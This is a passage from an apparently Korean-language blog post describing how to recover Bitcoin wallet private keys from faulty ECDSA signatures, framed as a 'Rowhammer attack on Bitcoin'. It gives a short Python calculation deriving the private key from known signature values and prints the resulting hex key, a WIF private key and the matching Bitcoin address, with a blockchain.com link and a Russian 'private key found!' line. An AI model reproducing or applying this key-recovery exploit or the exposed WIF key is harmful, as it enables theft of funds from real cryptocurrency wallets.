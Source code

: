 N = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141


K = 0xe5fa9dccef88781e25e77bd1ea7830c0b33c57481b79007cda117da8139ea7c3
R = 0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
S = 0x282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad5
Z = 0x7270a25b48c53581f9babe8edcf27f9a038e7b57e817a8b242a49e2248bc71a7


print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>스크립트는 다음 공식을 사용하여 개인 키를 계산합니다.</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>스크립트를 실행해 봅시다:</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-139.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1233"/></figure>



<p><code>PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932</code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">bitaddress를</a></strong>&nbsp;열고&nbsp;다음을 확인합니다.</p>



<pre class="wp-block-code"><code>ADDR: 1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o
WIF:  L2vaWmjh7XpV9AMWDjmNSGPQNEd4QG7YGAMMqPEmGSt8WSppysCV
HEX:  aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/001-2.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1236"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://www.blockchain.com/btc/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o
</div></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>Приватный ключ найден!</code></p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-198-1024x458.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1375"/><figcaption class="wp-element-caption"><a href="https://www.blockchain.com/btc/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o" target="_blank" rel="noreferrer noopener"><strong><code>www.blockchain.com/btc/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o</code></strong></a></figcaption></figure>
